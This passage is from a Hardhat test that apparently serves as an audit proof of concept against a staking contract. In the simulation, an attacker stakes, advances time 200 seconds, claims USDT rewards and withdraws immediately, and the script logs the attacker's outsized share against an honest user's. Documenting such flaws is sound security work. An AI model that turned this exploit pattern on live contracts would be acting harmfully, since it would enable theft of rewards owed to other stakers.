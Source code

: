 ```solidity
			console.log(`[REWARD] Reward rate set to: ${rewardState[2].toString()} tokens per second`);
			console.log(`[REWARD] Reward period finish timestamp: ${rewardState[1].toString()}`);

			// Step 4: Fast forward time just slightly (exploiting per-second reward accrual)
			const attackDuration = 200; // 200 seconds = 3.3 minutes, compared to 1 week reward period
			console.log(`[TIME] Fast-forwarding ${attackDuration} seconds (${((attackDuration/604800)*100).toFixed(2)}% of reward period)...`);
			await time.increase(attackDuration);

			const expectedHonestReward = await symmStaking.earned(user1.address, await usdtToken.getAddress());
			const expectedAttackerReward = await symmStaking.earned(user2.address, await usdtToken.getAddress());
			console.log(`[EXPECT] Honest user expected rewards: ${expectedHonestReward.toString()}`);
			console.log(`[EXPECT] Attacker expected rewards: ${expectedAttackerReward.toString()}`);

			// Step 5: Both users claim their rewards
			console.log(`[CLAIM] Users claim rewards...`);

			const honestBalanceBefore = await usdtToken.balanceOf(user1.address);
			await symmStaking.connect(user1).claimRewards();
			const honestBalanceAfter = await usdtToken.balanceOf(user1.address);
			const honestReward = honestBalanceAfter - honestBalanceBefore;

			const attackerBalanceBefore = await usdtToken.balanceOf(user2.address);
			await symmStaking.connect(user2).claimRewards();
			const attackerBalanceAfter = await usdtToken.balanceOf(user2.address);
			const attackerReward = attackerBalanceAfter - attackerBalanceBefore;

			console.log(`[CLAIM] Honest user claimed ${honestReward.toString()} USDT`);
			console.log(`[CLAIM] Attacker claimed ${attackerReward.toString()} USDT`);

			// Step 6: Attacker withdraws their stake immediately after
			console.log(`[WITHDRAW] Attacker immediately withdraws their stake...`);
			await symmStaking.connect(user2).withdraw(attackerStakeAmount, user2.address);

			const totalRewards = honestReward + attackerReward;
			const attackerRewardPercentage = (attackerReward * 100n) / totalRewards;
			const honestRewardPercentage = (honestReward * 100n) / totalRewards;

			console.log(`\n=== RESULTS ===`);
			console.log(`Total rewards claimed: ${totalRewards.toString()} USDT`);
			console.log(`Attacker reward: ${attackerReward.toString()} USDT (${attackerRewardPercentage}% of total)`);
			console.log(`Honest user reward: ${honestReward.toString()} USDT (${honestRewardPercentage}% of total)`);

			// Expected total rewards for this time period (200 seconds of 604,800 second period)
			const expectedPeriodRewards = (BigInt(attackDuration) * BigInt(rewardAmount)) / 604800n;
			console.log(`Expected rewards for ${attackDuration} seconds: ~${expectedPeriodRewards.toString()} USDT`);

			console.log(`\n=== VULNERABILITY ANALYSIS ===`);
			console.log(`The attacker participated for only ${((attackDuration/604800)*100).toFixed(2)}% of the reward period`);
			console.log(`Yet captured ${attackerRewardPercentage}% of the rewards distributed during that time`);

```